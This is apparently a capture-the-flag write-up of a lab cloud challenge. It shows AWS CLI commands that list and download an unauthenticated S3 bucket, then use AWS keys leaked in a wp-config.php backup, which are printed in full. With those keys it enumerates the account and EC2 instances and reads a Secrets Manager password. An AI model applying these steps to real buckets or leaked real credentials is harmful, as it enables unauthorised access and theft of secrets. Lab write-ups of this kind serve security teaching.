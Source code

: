 # Cloud: Elf Leaks

Author: Corbett Stephens \
Date: 01/07/2022


Shadow IT

Sometimes business units go around corporate IT, procurement, legal, and security when they need to get the job done quickly. This leads to security teams not knowing what they need to protect and systems not built to IT or Security standards. 

Challenge

Somehow, the Grinch has managed to get hold of all the Elves' names and email addresses. How could this have happened? Given the scope of the breach, McSkidy believes someone in HR must be involved. You know that HR recently launched a new portal site using WordPress. You also know that HR didn't request any infrastructure from IT to deploy this portal site. Where is that portal hosted?


![](./pictures/flyer.png)
Checking out the image, the URL reveals that it belongs to the bucket "images.bestfestivalcompany.com".

To check what else is in the bucket: `aws s3 ls s3://images.bestfestivalcompany.com/ --no-sign-request`

To download content the following command can use `aws s3 cp s3://images.bestfestivalcompany.com/flag.txt . --no-sign-request`.

![](./pictures/download.png)

Looking at the backup folder, there exists a `wp-config.php` file. Inside this file, the AWS keys and region can be found. AWS access keys typically start with `AKIAQI52OJVCPZXFYAOI` while secret keys look seemingly random such as `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`. Other key formats can be `AIDA`, `AROA`, or `ASIA` which stand for ID key, role key, and session key respectively. 

![](./pictures/keys.png)

<pre>
Key: AKIAQI52OJVCPZXFYAOI
Secret: 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
Region: us-east-1
</pre>

The Account ID that owns the key can be found by using the command `aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile hr`.

Account ID: `019181489476`

To find the username for the account the following command can be used: `aws sts get-caller-identity --profile hr`.

<pre>
{
    "UserId": "AIDAQI52OJVCFHT3E73BO",
    "Account": "019181489476",
    "Arn": "arn:aws:iam::019181489476:user/ElfMcHR@bfc.com"
}
</pre>

To find EC2 Instance `aws ec2 describe-instances --output text --profile hr`

<pre>
RESERVATIONS	019181489476	043234062703	r-0e89ba65b28a7c699
INSTANCES	0	x86_64	HR-Po-Insta-1NAKAMW2PPVMT	False	True	xen	ami-0c2b8ca1dad447f8a	i-0c56041ac61cf5a95	t3a.micro	hr-key	2021-11-13T12:36:58.000Z	ip-172-31-68-81.ec2.internal	172.31.68.81		/dev/xvda	ebs	True	User initiated (2021-11-13 12:42:39 GMT)	subnet-00b1107c0c18c0722	hvm	vpc-0235b5a9591606b73
BLOCKDEVICEMAPPINGS	/dev/xvda
EBS	2021-11-13T12:36:59.000Z	True	attached	vol-0ac79339aac8b249d
CAPACITYRESERVATIONSPECIFICATION	open
CPUOPTIONS	1	2
HIBERNATIONOPTIONS	False
METADATAOPTIONS	enabled	1	optional	applied
MONITORING	disabled
NETWORKINTERFACES		interface	16:35:78:d8:60:d1	eni-027945da0ddb79e59	019181489476	ip-172-31-68-81.ec2.internal	172.31.68.81	True	in-use	subnet-00b1107c0c18c0722	vpc-0235b5a9591606b73
ATTACHMENT	2021-11-13T12:36:58.000Z	eni-attach-0d91e2137f6014220	True	0	attached
GROUPS	sg-0c6e7cd87c1c8d035	default
PRIVATEIPADDRESSES	True	ip-172-31-68-81.ec2.internal	172.31.68.81
PLACEMENT	us-east-1f		default
SECURITYGROUPS	sg-0c6e7cd87c1c8d035	default
STATE	80	stopped
STATEREASON	Client.UserInitiatedShutdown	Client.UserInitiatedShutdown: User initiated shutdown
TAGS	aws:cloudformation:stack-id	arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7
TAGS	aws:cloudformation:logical-id	Instance
TAGS	created_by	Elf McHR
TAGS	aws:cloudformation:stack-name	HR-Portal
TAGS	Name	HR-Portal

</pre>

EC2 instance name: `HR-Portal`.

The database password stored in the Secrets Manager was a little hard to find. First, I had to figure out what the Secrets Manager was and how to use it. While researching, I found a command that would be helpful. `aws secretsmanager list-secrets --profile` then `aws secretsmanager get-secret-value --secret-id HR-Password --region us-east-1`. The output said to try something closer to the Santa in the north. Using the `aws secretsmanager get-secret-value --secret-id HR-Password --profile hr --region eu-north-1` worked which I was able to find with some trail and error. The output is shown in the following picture.

![](./pictures/secret.png)



